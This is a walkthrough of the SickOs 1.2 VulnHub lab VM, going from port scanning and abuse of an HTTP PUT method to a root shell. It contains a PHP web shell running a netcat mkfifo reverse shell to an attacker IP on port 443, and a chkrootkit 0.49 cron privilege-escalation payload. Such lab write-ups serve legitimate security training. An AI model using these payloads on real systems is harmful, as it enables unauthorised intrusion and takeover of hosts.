 ## SickOs 1.2 VulnHub VM walkthrough

SickOs 1.2 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-12,144/

```
This is second in following series from SickOs and is independent of the prior releases, scope of challenge is to gain highest privileges on the system.
```

## Solution

#### Sudo Netdiscover
![](Assets/1.png)
> IP address: 192.168.1.8

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.8
![](Assets/2.png)
> OpenSSH 5.9p1 & lighthttpd 1.4.28

#### Nikto: Nikto -h 192.168.1.8
![](Assets/3.png)
> nothing interesting

#### Dirb http://192.168.1.8
![](Assets/4.png)
> test and index.php

#### Visit test directory
![](Assets/5.png)

#### Check curl methods: curl -v -X OPTIONS http://192.168.1.8/test
![](Assets/6.png)
> notice PUT method

#### Intercept http://192.168.1.8/test in burp and try creating a file with PUT
![](Assets/7.png)
> 'x' created

#### Check with curl http://192.168.1.8/test/x
![](Assets/8.png)
> Got the content

#### Add reverse shell and Note that the outbound traffic except port 443 is blocked by Firewall, so in reverse shell, use port 443
```
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f"); ?>
```
![](Assets/9.png)
> shell created
![](Assets/10.png)
> got shell access

#### Spawn tty shell
![](Assets/11.png)

### Method: Using Chkrootkit
#### Check cron.daily
![](Assets/12.png)
> chkrootkit 0.49 version vulnerable to local privilege escalation
> put malicious code in /tmp/update and wait for cron.daily to execute it
```
echo '#!/bin/bash' > update
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f' >> update 
chmod 777 update
```
![](Assets/13.png)

#### Nc -nvlp 443
![](Assets/14.png)
> Got root
